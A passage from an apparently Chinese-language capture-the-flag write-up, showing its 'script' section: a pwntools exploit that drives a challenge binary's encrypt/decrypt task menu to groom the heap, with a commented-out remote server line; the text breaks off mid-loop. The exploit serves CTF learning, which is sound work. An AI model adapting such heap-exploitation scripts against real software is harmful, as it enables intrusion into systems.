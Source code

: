 ## 5.脚本

```
from pwn import *
import time
p=process('./task')
e=ELF('./libc-2.27.so')
#p=remote('111.186.63.201',10001)
p.readuntil('Choice:')
context(log_level='debug')


def ad(a,b,c,d,e,f):
    p.writeline('1')
    p.readuntil('Task id :')
    p.writeline(a)
    p.readuntil('Encrypt(1) / Decrypt(2):')
    p.writeline(b)
    p.readuntil('Key :')
    p.write(c)
    p.readuntil('IV :')
    p.write(d)
    p.readuntil('Data Size :')
    p.writeline(e)
    p.readuntil('Data')
    p.write(f)
    p.readuntil('Choice:')
def de(a):
    p.writeline('2')
    p.readuntil('Task id :')
    p.writeline(a)
    p.readuntil('Choice:')
def go(a):
    p.writeline('3')
    p.readuntil('Task id :')
    p.writeline(a)
    p.readuntil('Choice:')

for i in range(0,4):
    ad(str(i),'1','a'*32,'a'*16,'256','1'*256)


ad('20','1','a'*32,'a'*16,'592','1'*592)
ad('21','1','a'*32,'a'*16,'8','1'*8)
ad('22','1','a'*32,'a'*16,'8','1'*8)
ad('23','1','a'*32,'a'*16,'8','1'*8)
ad('24','1','a'*32,'a'*16,'8','1'*8)
for i in range(0,4):
    de(str(i))

go('20')
de('20')

de('21')
de('22')
ad('21','1','a'*32,'a'*16,'160','1'*160)
ad('22','1','a'*32,'a'*16,'8','1'*8)
p.readuntil('Ciphertext: n')

st=''

for i in range(0,38):
    q=0
```